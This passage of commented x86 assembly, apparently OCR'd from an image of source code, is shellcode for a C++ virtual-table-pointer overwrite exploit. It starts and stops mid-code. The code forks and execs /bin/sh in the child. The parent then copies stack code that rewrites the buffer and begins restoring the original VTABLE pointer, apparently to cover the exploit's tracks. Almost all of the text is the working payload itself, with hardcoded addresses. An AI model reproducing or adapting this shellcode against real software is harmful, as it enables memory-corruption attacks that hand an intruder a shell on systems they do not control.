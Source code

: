 ```
                                        // (address of NULL dword in our
                                        // buffer)
stosl  %eax,%es:(%edi)                  //we write this NULL in the buffer
movl   $0x804a87f,%edi                  //EDI=$BufferAddress+$BinSh00Offset
                                        // (address of 00h from "/bin/sh")
stosb  %al,%es:(%edi)                   //we write this 00h at the end of
                                        // "/bin/sh"
movb   $0x2,%al
int    $0x80                            //fork()
xorl   %edx,%edx                        //EDX=0
cmpl   %edx,%eax
jne    0x804a8c1                        //if EAX=0 then jump to LFATHER
                                        // (EAX=0 if father process)

movb   $0xb,%al                         //else we are the child process
movl   $0x804a878,%ebx                  //EBX=$BufferAddress+$BinShOffset
                                        // (address of "/bin/sh")
movl   $0x804a870,%ecx//ECX=$BufferAddress+$BinShAddressOffset
                                        // (adresse of address of "/bin/sh")
xorl   %edx,%edx                        //EDX=0h (NULL)
int    $0x80                            //exec() "/bin/sh"

LFATHER:
movl   %edx,%esi                        //ESI=0
movl   %edx,%ecx//ECX=0
movl   %edx,%ebx//EBX=0
notl   %ebx//EBX=0xFFFFFFFF
movl   %edx,%eax//EAX=0
movb   $0x72,%al//EAX=0x72
int    $0x80                            //wait() (wait an exit from the shell)
xorl   %ecx,%ecx//ECX=0
movb   $0x31,%cl//ECX=$StackCodeSize
movl   $0x804a8e2,%esi//ESI=$BufferAddress+$StackCodeOffset
                                        // (address of beginning of the
                                        // stackcode)
movl   %ebp,%edi                        //EDI point to the end of or local
                                        // variable
subl   %ecx,%edi                        //EDI point to the beginning of or
                                        // local variable
movl   %edi,%edx                        //EDX also point to the beginning of
                                        // or local variable
repz movsb %ds:(%esi),%es:(%edi)        //copy our stackcode into our local
                                        // variable on the stack
jmp    *%edx                            //run our stackcode on the stack

stackcode:
movl   $0x804a913,%esi//ESI=$BufferAddress+$NewBufferOffset
                                        // (point to the new string we want to
                                        // rewrite in the buffer)
movl   $0x804a860,%edi                  //EDI=$BufferAddress (point to the
                                        // beginning of our buffer)
xorl   %ecx,%ecx//ECX=0
movb   $0x9,%cl                         //ECX=$NewBufferSize (length of the
                                        // new string)
repz movsb %ds:(%esi),%es:(%edi)        //copy the new string at the
                                        // beginning of our buffer
xorb   %al,%al//AL=0
stosb  %al,%es:(%edi)                   //put a 00h at the end of the string
movl   $0x804a960,%edi//EDI=$BufferAddress+$VPTROffset
                                        // (address of VPTR)
movl   $0x8049730,%eax                  //EAX=$VTABLEAddress (adresse of the
                                        // original VTABLE from our class)
movl   %eax,%ebx//EBX=$VTABLEAddress
```